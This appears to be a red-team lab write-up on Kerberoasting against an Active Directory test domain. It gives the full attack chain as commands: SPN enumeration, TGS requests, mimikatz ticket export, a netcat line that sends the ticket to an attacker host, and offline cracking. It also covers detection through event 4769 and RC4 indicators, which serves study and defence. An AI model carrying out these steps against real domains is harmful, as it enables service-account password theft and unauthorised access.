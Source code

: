 ```yaml
---
layout: post
title: "t1208 kerberoasting"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /active-directory-kerberos-abuse/
---
```


---
description: Credential Access
---

# Kerberoasting

This lab explores the Kerberoasting attack - it allows any domain user to request kerberos tickets from TGS that are encrypted with NTLM hash of the plaintext password of a domain user account that is used as a service account (i.e account used for running an IIS service) and crack them offline avoiding AD account lockouts.

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set, which is very important piece for kerberoasting - only user accounts with that property set are most likely susceptible to kerberoasting:

![](../../.gitbook/assets/kerberoast-principalname.png)

Attacker setting up an nc listener to receive a hash for cracking:

{% code title="attacker@local" %}
```csharp
nc -lvp 443 > kerberoast.bin
```
{% endcode %}

### Extracting the Ticket

Attacker enumerating user accounts with `serverPrincipalName` attribute set:

{% code title="attacker@victim" %}
```csharp
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-enumeration.png)

Using only built-in powershell, we can extract the susceptible accounts with:

```csharp
get-adobject | Where-Object {$_.serviceprincipalname -ne $null -and $_.distinguishedname -like "*CN=Users*" -and $_.cn -ne "krbtgt"}
```

![](../../.gitbook/assets/kerberoast-powershell.png)

It would have been better to use the following command provided by [Sean Metcalf](https://adsecurity.org/?p=2293) purely because of the `-filter` usage (quicker than `select-object`), but it did not work for me:

```csharp
get-adobject -filter {serviceprincipalname -like “*sql*”} -prop serviceprincipalname
```

Another alternative working on Linux using [bloodyAD](https://github.com/CravateRouge/bloodyAD):

```csharp
python bloodyAD.py -u '$user' -p '$password' -d '$domain' --host '$host' get search --filter '(&(!(cn=krbtgt))(&(samAccountType=805306368)(servicePrincipalName=*)))' --attr sAMAccountName | grep sAMAccountName | cut -d ' ' -f 2
```

Additionally, user accounts with SPN set could be extracted with a native windows binary:

```
 setspn -T offense -Q */*
```

![](<../../.gitbook/assets/kerberoast-setspn (1).png>)

Attacker requesting a kerberos ticket (TGS) for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:

{% code title="attacker@victim" %}
```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-kerberos-token.png)

Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:

{% code title="attacker@victim" %}
```csharp
mimikatz # kerberos::list /export
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-exported-kerberos-tickets.png)

Attacker sends the exported service ticket to attacking machine for offline cracking:

{% code title="attacker@victim" %}
```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```
{% endcode %}

### Cracking the Ticket

Attacker brute forces the password of the service ticket:

{% code title="attacker@local" %}
```csharp
python2 tgsrepcrack.py pwd kerberoast.bin
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-cracked.png)

## Observations

Below is a security log `4769` showing service access being requested:

![](../../.gitbook/assets/kerberoast-4769.png)

If you see `Add-event -AssemblyName SystemIdentityModel` (from advanced Powershell logging) followed by a windows security event `4769` immediately after that, you may be looking at an old school Kerberoasting, especially if ticket encryption type has a value `0x17` (23 decimal, meaning it's RC4 encrypted):

![](<../../.gitbook/assets/kerberoast-logs (1).png>)

### Traffic

Below is the screenshot showing a request being sent to the `Ticket Granting Service` (TGS) for the service with a servicePrincipalName `HTTP/dc-mantvydas.offense.local` :

![](../../.gitbook/assets/kerberoast-tgs-req.png)

Below is the response from the TGS for the user `spotless` (we initiated this attack from offense\spotless) which contains the encrypted (RC4) kerberos ticket (server part) to access the `HTTP/dc-mantvydas.offense.local` service. It is the same ticket we cracked earlier with [tgsrepcrack.py](t1208-kerberoasting.md#cracking-the-ticket):

![](<../../.gitbook/assets/kerberoast-tgs-res (1).png>)

Out of curiosity, let's decrypt the kerberos ticket since we have the password the ticket was encrypted with.

Creating a kerberos keytab file for use in wireshark:

{% code title="attacker@local" %}
```bash
root@~# ktutil 
ktutil:  add_entry -password -p HTTP/iis_svc@dc-mantvydas.offense.local -k 1 -e arcfour-hmac-md5
Password for HTTP/iis_svc@dc-mantvydas.offense.local: 
ktutil:  wkt /root/tools/iis.keytab
```
{% endcode %}

![](../../.gitbook/assets/kerberoast-creating-keytab.png)

Adding the keytab to wireshark:

![](../../.gitbook/assets/kerberoast-wireshark-keytab.png)

Note how the ticket's previously encrypted piece is now in plain text and we can see information pertinent to the requested ticket for a service `HTTP/dc-mantvydas.offense.local` :

![](../../.gitbook/assets/kerberoast-decrypted.png)

### tgsrepcrack.py

Looking inside the code and adding a couple of print statements in key areas of the script, we can see that the password from the dictionary (`Passw0rd`) initially gets converted into an NTLM (`K0`) hash, then another key `K1` is derived from the initial hash and a message type, yet another key `K2` is derived from K1 and an MD5 digest of the encrypted data. Key `K2` is the actual key used to decrypt the encrypted ticket data:

![](../../.gitbook/assets/kerberoast-crackstation.png)

![](../../.gitbook/assets/kerberoast-printstatements.png)

I did not have to, but I also used an online RC4 decryptor tool to confirm the above findings:

![](../../.gitbook/assets/kerberoast-decryptedonline.png)

{% file src="../../.gitbook/assets/kerberoast.pcap" %}
kerberoast.pcap
{% endfile %}

## References

[Tim Medin - Attacking Kerberos: Kicking the Guard Dog of Hades](https://files.sans.org/summit/hackfest2014/PDFs/Kicking%20the%20Guard%20Dog%20of%20Hades%20-%20Attacking%20Microsoft%20Kerberos%20%20-%20Tim%20Medin\(1\).pdf)

{% embed url="https://attack.mitre.org/wiki/Technique/T1208" %}

{% embed url="https://github.com/nidem/kerberoast" %}

{% embed url="https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/" %}

{% embed url="https://adsecurity.org/?p=2293" %}

{% embed url="https://www.youtube.com/watch?v=nJSMJyRNvlM&feature=youtu.be&t=16" %}

{% embed url="http://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" %}

{% embed url="https://blog.xpnsec.com/kerberos-attacks-part-1/" %}

{% embed url="https://pentestlab.blog/2018/06/12/kerberoast/" %}

{% embed url="http://rc4.online-domain-tools.com/" %}

{% embed url="https://crackstation.net/" %}

{% embed url="https://blogs.technet.microsoft.com/askds/2008/03/06/kerberos-for-the-busy-admin/" %}

{% embed url="https://medium.com/@jsecurity101/ioc-differences-between-kerberoasting-and-as-rep-roasting-4ae179cdf9ec" %}
@spotheplanet
